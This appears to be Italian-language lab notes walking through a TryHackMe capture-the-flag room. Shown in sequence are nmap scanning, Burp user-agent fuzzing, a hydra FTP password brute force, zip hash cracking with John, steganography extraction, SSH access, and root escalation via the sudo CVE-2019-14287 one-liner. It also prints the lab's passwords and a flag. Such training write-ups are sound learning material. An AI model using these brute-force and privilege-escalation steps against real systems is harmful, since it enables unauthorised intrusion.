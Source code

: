 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/agentsudoctf

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.56.42 -oG risultatoscan
```

```
sudo nmap -sC -sV -p21,80,22,52263 10.10.56.42 -oN risultatoscan2
```

http://10.10.56.42/

==user-agent== per accedere alle pagine web segrete

trovare con burpsuite un user agent valido dandogli in pasto una lista 
```bash
burpsuite &> /dev/null & disown
```
trovata la lettera
```
C
```

SEND al Response o Browser

```
Attention chris,  
  
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!  
  
From,  
Agent R
```

```shell
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.56.42 ftp
```
trovata password:
```
crystal
```

```
ftp 10.10.217.213
```

```
chris
```

```
less To_agentJ.txt
```

```
mget cute-alien.jpg
```

```
mget cutie.png
```

```
exiftool /home/kali/cutie.png
```
analizziamo stenografia del file
```
binwalk /home/kali/cute-alien.jpg
```

```
binwalk -e /home/kali/cute-alien.jpg
```

```
cd _cutie.png.extracted
```

```
7z x 8702.zip
```
ci chiede pw che non abbiamo
==creiamo un hash del file zip==
```
zip2john 8702.zip > zip_hash
```

```
john zip_hash
```
trovata la password
```
alien
```

```
7z x 8702.zip
```

```
cat To_agentR.txt
```

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
QXJlYTUx è codificata in base64 la decodifichiamo (volendo anche su sito)
https://gchq.github.io/CyberChef/
```
echo 'QXJlYTUx' | base64 -d
```
troviamo
```
Area51
```
==installiamo==
```
steghide
```

```
cd ..
```
estraiamo dal file stenografato
```
steghide extract -sf cute-alien.jpg
```

```
cat message.txt  
```

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

```
hackerrules!
```

```
ssh james@10.10.217.213
```

```
cat user_flag.txt
```

```
b03d975e8c92a7c04146cfa7a5a313c7
```
==scarichiamo da remoto con scp==
```
scp james@10.10.217.213:"/home/james/Alien_autospy.jpg" "$HOME"
```

==se no si può fare lo facciamo con python==
tiriamo su un server su macchina vittima
```
python3 -m http.server
```
e dalla nostra
```
wget http://10.10.217.213:8000/Alien_autospy.jpg
```
ricerca su fox news online 
```
Roswell alien autopsy
```
==ora scalata dei privilegi su james==

```
sudo -l
```

```
hackerrules!
```

```
(ALL, !root) /bin/bash
```
	(cerchiamo su google)
```
sudo --version
```
troviamo
```
CVE-2019-14287
```
exploit
```
sudo -u#-1 /bin/bash
```

```
cd root
```

```
cd /root
```

```
cat root.txt
```
flag!
```
b53xxxxxxxxxxxxxxxxxxxx
```

```
DesKel
```
